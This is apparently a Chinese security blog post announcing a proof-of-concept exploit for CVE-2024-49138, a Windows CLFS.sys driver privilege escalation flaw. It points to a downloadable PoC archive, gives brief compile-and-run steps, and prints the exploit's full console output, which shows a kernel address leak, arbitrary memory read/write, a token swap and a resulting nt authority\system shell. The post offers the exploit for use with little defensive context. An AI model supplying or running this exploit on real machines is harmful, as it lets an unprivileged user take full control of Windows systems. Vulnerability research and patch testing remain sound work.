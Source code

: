 #  CVE-2024-49138 poc windows CLFS.sys提权漏洞   
云梦DC  云梦安全   2025-01-31 01:01  
  
## CVE-2024-49138简介  
  
Windows 通用日志文件系统驱动程序特权提升漏洞。  
  
CrowdStrike 检测到威胁行为者积极利用该漏洞。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpwUibR6fibPYWYG8YdpZUPN0GL4pDxQ7WRiaQCt7KhFkEF765eaUvNXqX3sicKEIJzAOrA6JNlf8TiajrQ/640?wx_fmt=png&from=appmsg "")  
## CVE-2024-49138 POC exp下载地址  
  
CVE-2024-49138-POC.zip  
## 测试  
  
**在Windows 11 23h2**  
上测试成功。  
## 编译并运行  
  
编译 x64 发布版本。  
  
运行并获取系统shell。  
```
PS C:\Users\IEUser\Desktop> whoami
windows11\ieuser
PS C:\Users\IEUser\Desktop> .\CVE-2024-49138-POC.exe
Directory created successfully: C:\temp
Directory created successfully: C:\temp
file opened successfully
AddLogContainer successful
hResource = 0x00007FF7CDB89080
hResource = 0x00007FF7CDB890A0
pResourceData = 0x00007FF7CDB890A0
Resource size: 65536 bytes
Resource written to output.bin successfully.
Kernel Base Address: 0xFFFFF80339800000
Kernel Name: ntoskrnl.exe
NtReadVirtualMemory = 0x00007FFFAF0EFB40
NtWriteVirtualMemory = 0x00007FFFAF0EFAA0
pcclfscontainer = 0x0000000002100000
address_to_write = 0xFFFFC201424CC2B2
Process priority set to REALTIME_PRIORITY_CLASS.
Thread priority set to the highest level: TIME_CRITICAL.
triggering vuln...CreateLogFile failed with error 6601
Process priority set to NORMAL_PRIORITY_CLASS.
Thread priority set to the highest level: THREAD_PRIORITY_NORMAL.
vuln triggered
reading base of ntoskrnl to check we have arbitrary read/write
buf = 0x0000000300905A4D
swapping tokens...
current token address = 0xFFFFC201423EC578
systemtoken = 0xFFFFD401F501C6E9
Overwriting process token..
token swapped. Restoring PreviousMode and spawning system shell...
Microsoft Windows [Version 10.0.22631.2861]
(c) Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
nt authority\system

```